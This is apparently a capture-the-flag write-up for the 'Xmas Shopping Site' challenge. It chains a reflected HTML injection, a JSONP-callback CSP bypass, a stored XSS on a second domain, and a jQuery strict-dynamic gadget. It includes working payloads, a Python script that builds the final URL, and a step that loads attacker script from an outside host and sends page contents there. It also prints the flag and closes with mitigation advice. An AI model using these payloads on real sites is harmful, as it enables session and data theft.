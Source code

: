 #  Xmas Shopping Site 

This challenge is a standard XSS challenge setup: we are given a way to submit URLs and must steal data from the target domain (see the Stage2 link).
To solve it, we must find a way to execute JavaScript in the context of the target domain (cross-site scripting, or XSS in short).

## Stage 1: Bypassing the CSP

Navigating through the challenge site, we quickly discover that there is an XSS in the search response.
For example, visit http://xss.allesctf.net/?search=%3Cb%3Etest%3C/b%3E and observe that the text is bold.
Testing this some more, we can confirm that it is possible to inject arbitrary HTML.

We cannot inject scripts though. If we try that, we find that they are not executed: <http://xss.allesctf.net/?search=%3Cscript%3Ealert(1);%3C/script%3E> 
This is due to the [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) set by the site.
The CSP is a security policy that restricts the permissible sources for scripts.
In our case, the value of the CSP is `default-src 'self' http://*.xss.allesctf.net; object-src 'none'; base-uri 'none';`.
In particular, `unsafe-inline` is not part of that, so inline `<script>` tags won't be allowed.

To bypass this, we need to make use of another endpoint on the site.
To fetch the available items, the site requests `http://xss.allesctf.net/items.php?cb=parseItems`.
That endpoint then returns javascript that passes the items to the given *c*all*b*ack function.
This technique is known as [JSONP](https://en.wikipedia.org/wiki/JSONP).

We can use that endpoint to construct arbitrary scripts.
Since there is no validation on the cb parameter, we can just request `http://xss.allesctf.net/items.php?cb=alert(1);` which returns:

```
$ curl 'http://xss.allesctf.net/items.php?cb=alert(1);'
alert(1);([{"title": "Weihnachtsbaum", "url": "3.png", "text": "Plastik und voll schön."},{"title": "Christbaumkugel", "url": "1.png", "text": "Rund und bunt."},{"title": "Schlitten", "url": "2.png", "text": "Es ist glatt, er ist schnell!"}])
```

Then, we use the injection in the search function inject a `<script src=http://xss.allesctf.net/items.php?cb=alert(1);></script>` tag.
This is allowed by the CSP, because `default-src` allows scripts from `*.xss.allesctf.net` to be executed.
Here's a demo:  <http://xss.allesctf.net/?search=%3Cscript%20src=http://xss.allesctf.net/items.php?cb=alert(1);%3E%3C/script%3E>

## Stage 2: Pivoting to a second domain
We have successfully bypassed the CSP and can now execute arbitrary JavaScript in the context of the `xss.allesctf.net`.
But to get the flag requires us to be able to execute JavaScript on the `http://stage2.xss.allesctf.net` domain, since that's where the flag is displayed. 
Because it is a different domain, we cannot simply request the page (we're not allowed to read the result because of the [Same-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)).

The Same-Origin Policy only prevents reading the response.
It does not prevent making requests.
If we can find a way to trigger an XSS by using a request to the stage2 site, we can solve the challenge.

The stage2 site has a function to change the background image.
The way this works is that there is a hidden input field in the document source:

```
<input type="hidden" id="bg" value="green">
```

When the background is changed, a POST request to `/` is made with a form parameter called `bg`
that changes the value and the site is reloaded.
After the reload, the hidden input field will contain the new value.

Since the value of the `bg` parameter is not validated, this leads to a stored XSS.
We can test this by executing the following with the browser console:
```
$.post({
  url: window.location.href,
  xhrFields: { withCredentials: true },
  data: {"bg": '"><b>hello xss!</b>"'} 
}).then(() => location.reload())
```

Looking at the source of the site after executing that request, we see:

```
<input type="hidden" id="bg" value=""><b>hello xss!</b>"">
```

So we have successfully injected HTML.
However, there is again a Content-Security Policy preventing us from executing scripts.
This time, the policy is even more strict: `script-src 'nonce-GHiE/BHQYQOsRVYaUHl3cvd1NMg=' 'unsafe-inline' 'strict-dynamic'; base-uri 'none'; object-src 'none';`
Do not be fooled by the `unsafe-inline`, this is only for backwards compatibility with browsers that do not support the `nonce-` method.
Modern browsers (such as the one used in the challenge) that support `nonce-` ignore the `unsafe-inline`.
This means that in order to execute a script, we either need to supply the correct `nonce` or be loaded by an existing script (this is what `strict-dynamic` means).

Getting the nonce correct is impossible since we don't know it.
However, there is a way to abuse the existing code of the site to trick it into executing our own code.
Here's the part of the site's script that is executed when the page loads, in order to load the background:

```
$(document).ready(() => {
    $("body").append(backgrounds[$("#bg").val()]);
});
```

This uses jQuery's `append` function, which parses HTML and adds it to the DOM.
If we can make the argument to that be a `<script>OUR CODE</script>`, then our script will execute, because it is "loaded" by an existing script (thanks to `strict-dynamic`).

So we want to control the value of the expression `backgrounds[$("#bg").val()]`.
One way to do so is to make `$("#bg").val()` equal to `innerHTML` and then put our script into a div with id `backgrounds`, as follows:

```html
<input type="hidden" id="bg" value="innerHTML">
<div id="backgrounds"><script>alert(2);</script></div>
<!-- comment out the rest of the code that would usually set the backgrounds variable
```

We can test this with the following call in the browser console (we only inject the part after the the `value="` because that's where the server substitues our payload).

```
$.post({
    url: window.location.href,
    xhrFields: { withCredentials: true },
    data: {"bg": 'innerHTML"><div id="backgrounds"><script>alert(2);</script></div><!--'} 
}).then(() => location.reload())
```

This successfully shows an `alert(2)` prompt, confirming that we can bypass the CSP.

## Putting it together: the complete payload

Since the second XSS is a stored XSS triggered by a POST request, we can also trigger that from the first XSS.
For that, we simply make the first XSS perform the POST and then redirect to the stage2 site, like this:

```
$("a")[1].href;
$.post({url: l, data: {"bg": x.value}, xhrFields: {withCredentials: true}}).always(function() { document.location = l;});
```

Since the payload for the first stage is size-constrained, we place the actual `bg` payload in a variable named `x`. We can inject this together with the first XSS by creating an input with `id=x`:`

```
<input id="x" name="bg" value="INJECT2">
```

Here `INJECT2` is the value we want to set the `bg` value to.
I used a small script to construct the final payload:

```
FINAL_PAYLOAD = "<script src=http://dev.five.name></script>"
INJECT2 = '''
innerHTML"><div id="backgrounds">FINAL_PAYLOAD</div><!--
'''.strip().replace("FINAL_PAYLOAD", FINAL_PAYLOAD)

SRC1 = "http://xss.allesctf.net/items.php?cb=" + quote('l=$("a")[1].href;$.post({url: l, data: {"bg": x.value}, xhrFields: {withCredentials: true}}).always(function() { document.location = l;});');
INJECT1 = '''
<input id="x" name="bg" value="INJECT2">
<script defer src='SRC1'></script>
'''.replace("\n", "").replace("INJECT2", html.escape(INJECT2)).replace("SRC1", SRC1)

link = "http://xss.allesctf.net/?search=" + quote(INJECT1)

print(SRC1)
print("--")
print(link)
```

This generates the following link: `http://xss.allesctf.net/?search=%3Cinput%20id%3D%22x%22%20name%3D%22bg%22%20value%3D%22innerHTML%26quot%3B%26gt%3B%26lt%3Bdiv%20id%3D%26quot%3Bbackgrounds%26quot%3B%26gt%3B%26lt%3Bscript%20src%3Dhttp%3A//dev.five.name%26gt%3B%26lt%3B/script%26gt%3B%26lt%3B/div%26gt%3B%26lt%3B%21--%22%3E%3Cscript%20defer%20src%3D%27http%3A//xss.allesctf.net/items.php%3Fcb%3Dl%253D%2524%2528%2522a%2522%2529%255B1%255D.href%253B%2524.post%2528%257Burl%253A%2520l%252C%2520data%253A%2520%257B%2522bg%2522%253A%2520x.value%257D%252C%2520xhrFields%253A%2520%257BwithCredentials%253A%2520true%257D%257D%2529.always%2528function%2528%2529%2520%257B%2520document.location%2520%253D%2520l%253B%257D%2529%253B%27%3E%3C/script%3E`

The payload will fetch a script to execute from `dev.five.name`.
If we put a script to do `document.location="http://dev.five.name/" + document.body.innerHTML` there and then submit the link, we find the flag in the webserver access logs: `CSCG{c0ngratZ_y0u_l3arnD_sUm_jS:>}`

## Mitigation

The XSS exploited in stage 1 should be fixed by a) escaping the query in the search response and b) applying a whitelist on valid JSONP callbacks.
For the second issue, there should be a whitelist on the allowed background names, since they are statically known. Removing all possible gadgets that allow `strict-dynamic` bypass is probably not so feasible, if you still want to use jQuery. But you could still avoid building a DOM from strings, by using the browser APIs to properly construct the DOM.

